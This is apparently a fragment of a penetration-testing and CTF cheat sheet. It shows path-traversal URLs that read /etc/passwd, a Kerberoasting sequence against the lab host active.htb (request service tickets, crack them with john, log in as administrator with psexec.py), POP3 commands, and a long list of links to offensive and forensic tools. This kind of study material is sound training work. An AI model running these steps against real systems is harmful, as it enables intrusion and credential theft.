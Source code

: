     ```bash
    http://$ip/index.php?page=/etc/passwd
    http://$ip/index.php?file=../../../../etc/passwd
    ```

if a page redirects to another, we can use burp to stop
------------------------------------------------------------

```bash
Proxy -> Options -> Match and Replace
```

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled.png)

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%201.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%201.png)

kerberos (88):
------------------------------------------------------------

```powershell
tel#add host to /etc/hosts
sudo gedit /etc/hosts

./GetUserSPNs.py -request active.htb/SVC_TGS > admin.txt
#the password we will get will be encrypted
john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt

#with the cracked password...
psexec.py administrator@active.htb
```

Pop3 (110):
------------------------------------------------------------

```bash
telnet INSERTIPADDRESS 110
```

```bash
USER [username]
```

```bash
PASS [password]
```

- To login

```bash
LIST
```

- To list messages

```bash
RETR [message number]
```

- Retrieve message


[steghide]: http://steghide.sourceforge.net/
[snow]: http://www.darkside.com.au/snow/
[cribdrag.py]: https://github.com/SpiderLabs/cribdrag
[cribdrag]: https://github.com/SpiderLabs/cribdrag
[pcap]: https://en.wikipedia.org/wiki/Pcap
[PCAP]: https://en.wikipedia.org/wiki/Pcap
[Wireshark]: https://www.wireshark.org/
[Network Miner]: http://www.netresec.com/?page=NetworkMiner
[PCAPNG]: https://github.com/pcapng/pcapng
[pcapng]: https://github.com/pcapng/pcapng
[pdfcrack]: http://pdfcrack.sourceforge.net/index.html
[GitDumper.sh]: https://github.com/internetwache/GitTools
[pefile]: https://github.com/erocarrera/pefile
[Python]: https://www.python.org/
[PE]: https://en.wikipedia.org/wiki/Portable_Executable
[Portable Executable]: https://en.wikipedia.org/wiki/Portable_Executable
[hipshot]: https://bitbucket.org/eliteraspberries/hipshot
[QR code]: https://en.wikipedia.org/wiki/QR_code
[QR codes]: https://en.wikipedia.org/wiki/QR_code
[QR]: https://en.wikipedia.org/wiki/QR_code
[zbarimg]: https://linux.die.net/man/1/zbarimg
[Linux]: https://en.wikipedia.org/wiki/Linux
[Ubuntu]: https://en.wikipedia.org/wiki/Ubuntu_(operating_system)
[Wine]: https://en.wikipedia.org/wiki/Wine_(software)
[Detect DTMF Tones]: http://dialabc.com/sound/detect/index.html
[dnSpy]: https://github.com/0xd4d/dnSpy
[Windows]: https://en.wikipedia.org/wiki/Microsoft_Windows
[.NET]: https://en.wikipedia.org/wiki/.NET_Framework
[Vigenere Cipher]: https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[Playfair Cipher]: https://en.wikipedia.org/wiki/Playfair_cipher
[bcompiler]: http://php.net/manual/en/book.bcompiler.php
[PHP]: https://en.wikipedia.org/wiki/PHP
[GET]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[pdfdetach]: https://www.systutorials.com/docs/linux/man/1-pdfdetach/
[sqlmap]: https://github.com/sqlmapproject/sqlmap
[hachoir-subfile]: https://pypi.python.org/pypi/hachoir-subfile/0.5.3
[wget]: https://en.wikipedia.org/wiki/Wget
[git]: https://git-scm.com/
[Cross-site scripting]: https://en.wikipedia.org/wiki/Cross-site_scripting
[XSS]: https://en.wikipedia.org/wiki/Cross-site_scripting
[HTML]: https://en.wikipedia.org/wiki/HTML
[JavaScript]: https://en.wikipedia.org/wiki/JavaScript
[PEiD]: https://www.aldeid.com/wiki/PEiD
[wpscan]: https://wpscan.org/
[Ruby]: https://www.ruby-lang.org/en/
[Wordpress]: https://en.wikipedia.org/wiki/WordPress
[dumpzilla]: http://www.dumpzilla.org/
[hexed.it]: https://hexed.it/
[Magic Numbers]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Magic Number]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Edit This Cookie]: http://www.editthiscookie.com/
[cookie]: https://en.wikipedia.org/wiki/HTTP_cookie
[cookies]: https://en.wikipedia.org/wiki/HTTP_cookie
[formatStringExploiter]: http://formatstringexploiter.readthedocs.io/en/latest/index.html
[format string vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[printf vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[Java]: https://en.wikipedia.org/wiki/Java_(programming_language)
[JAR]: https://en.wikipedia.org/wiki/JAR_(file_format)
[OpenStego]: https://www.openstego.com/
[Stegsolve.jar]: http://www.caesum.com/handbook/stego.htm
[Stegsolve]: http://www.caesum.com/handbook/stego.htm
[PcapXray]: https://github.com/Srinivas11789/PcapXray
[Atbash Cipher]: https://en.wikipedia.org/wiki/Atbash
[TestDisk]: https://www.cgsecurity.org/Download_and_donate.php/testdisk-7.1-WIP.linux26.tar.bz2
[PNG]: https://en.wikipedia.org/wiki/Portable_Network_Graphics
[jd-gui]: https://github.com/java-decompiler/jd-gui
[dex2jar]: https://github.com/pxb1988/dex2jar
[apktool]: https://ibotpeaches.github.io/Apktool/
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[remote code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[arbitrary code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[XSStrike]: https://github.com/UltimateHackers/XSStrike
[nishang]: https://github.com/samratashok/nishang
[Malboge]: https://en.wikipedia.org/wiki/Malbolge
[Piet]: https://esolangs.org/wiki/Piet
[npiet]: https://www.bertnase.de/npiet/
[LC4]: https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html
[Empire]: https://github.com/EmpireProject/Empire
[Base64]: https://en.wikipedia.org/wiki/Base64
[Base32]: https://en.wikipedia.org/wiki/Base32
[Base85]: https://en.wikipedia.org/wiki/Ascii85
[fcrackzip]: https://github.com/hyc/fcrackzip
[zsteg]: https://github.com/zed-0xff/zsteg
[jsteg]: https://github.com/lukechampine/jsteg
[jstego]: https://sourceforge.net/projects/jstego/
[StegCracker]: https://github.com/Paradoxis/StegCracker
[Base41]: https://github.com/sveljko/base41/blob/master/python/base41.py
[Base65535]: https://github.com/qntm/base65536
[Easy Python Decompiler]: https://github.com/aliansi/Easy-Python-Decompiler-v1.3.2